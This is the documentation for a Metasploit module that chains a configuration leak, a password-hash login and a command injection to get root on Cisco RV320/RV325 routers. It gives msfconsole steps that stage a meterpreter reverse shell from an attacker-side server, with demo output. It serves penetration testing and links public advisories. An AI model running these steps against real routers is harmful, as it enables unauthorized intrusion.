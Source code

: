 ## Intro
This module automatically exploits two vulnerabilities to create an effectively
unauthenticated remote code execution on RV320 and RV325 routers.

The module will perform the following steps:

First the module will download the configuration. Then it will extract the MD5
password hash for the web interface user. The MD5 password hash is directly
accepted during login instead of the plain text password. With the MD5 hash the
module will authenticate to the web interface of the router and get a valid
authentication cookie. 

The second step is using the authentication cookie to
send an authenticated request to the web interface which exploits a command
injection vulnerability. The injection is limited to ~50 characters. Therefore,
the module uses a web server to stage a shell payload for the MIPS64
architecture of the router. Depending on the payload the module will result in
a shell or meterpreter session.

## Vulnerable Application:

Cisco Small Business Routers RV320 and RV325 with firmware versions between
1.4.2.15 and 14.2.20.

Link to vulnerable Firmware Version:
https://software.cisco.com/download/home/284005929/type/282465789/release/1.4.2.20?i=!pp


Links to Advisories:
Part 1 of the exploit (configuration download):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-002/-cisco-rv320-unauthenticated-configuration-export

Part 2 of the exploit (command injection in web interface):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-004/-cisco-rv320-command-injection

Advisories by vendor:
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-inject

## Options

**RHOSTS**

Configure the remote vulnerable system.

**RPORT**

Configure the TCP port of the HTTP/HTTPS management web interface.

**USE_SSL**

This flag controls whether the remote management web interface is accessible
via HTTPS or not. Should be false for HTTP and true for HTTPS.

**PAYLOAD**

Configure the Metasploit payload that you want to stage. Must be for MIPS64
arch.  Set payload Options accordingly.

**SRVHOST**

The module stages the payload via a web server. This is the binding interface
IP. Default can be set to 0.0.0.0. 

**HTTPDelay**

This configures how long the module should wait for the incoming HTTP
connection to the HTTP stager.

## Verification Steps

1. Have exploitable RV320 or RV325 router (exampe IP: 192.168.1.1):
2. Start `msfconsole`:
3. Do:  ```use exploit/linux/http/cisco_rv32x_rce```
4. Do: ```set RHOSTS 192.168.1.1```
5. Do: ```set payload linux/mips64/meterpreter_reverse_tcp``` (Set the MIPS64 payload you want to use)
6. Do: ```set LHOST 192.168.1.2``` (Setting your own IP here, example: 192.168.1.2)
7. Do: ```set RPORT 8007``` (Set the remote Port on which the router web interface is accessible)
8. Do: ```run```
9. Gives you a privileged (uid=0) shell or in the example a meterpreter session.


## Scenarios

Exploiting a vulnerable RV320 router with publicly accessible HTTPS web
interface on TCP port 443: 
```
msf5 exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
msf5 exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
msf5 exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
msf5 exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
msf5 exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
msf5 exploit(linux/http/cisco_rv32x_rce) > run
```

Demo example output for the module:
```
msf5 > use exploit/linux/http/cisco_rv32x_rce 
msf5 exploit(linux/http/cisco_rv32x_rce) > show options

Module options (exploit/linux/http/cisco_rv32x_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  15               yes       Time that the HTTP Server will wait for the payload request
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      8007             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   URIPATH    /                yes       The path for the stager. Keep set to default! (We are limited to 50 chars for the initial command.)
   USE_SSL    false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   LINUX MIPS64

msf5 exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
payload => linux/mips64/meterpreter_reverse_tcp
msf5 exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
LHOST => 192.168.1.2
msf5 exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
RPORT => 443
msf5 exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
USE_SSL => true
msf5 exploit(linux/http/cisco_rv32x_rce) > run

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.1.2:8080/
[*] Server started.
[*] Downloading configuration from 192.168.1.1:443
[*] Using SSL connection to router.
[*] Successfully downloaded config
[*] Got MD5-Hash: dfead10390e560aea745ccba53e044ed
[*] Loging in as user cisco using password hash.
[*] Using default auth_key 1964300002
[*] Successfully logged in as user cisco.
[*] Got cookies: mlap=RGVmYXVsdDE6Ojo6Y2lzY28=;
[*] Sending payload. Staging via http://192.168.1.2:8080/.
[*] 192.168.1.1:443 - Payload request received: /
[*] Waiting for stager connection timed out. Try increasing the delay.
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:48580) at 2019-03-14 10:00:00 +0100
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=99, euid=0, egid=99
```
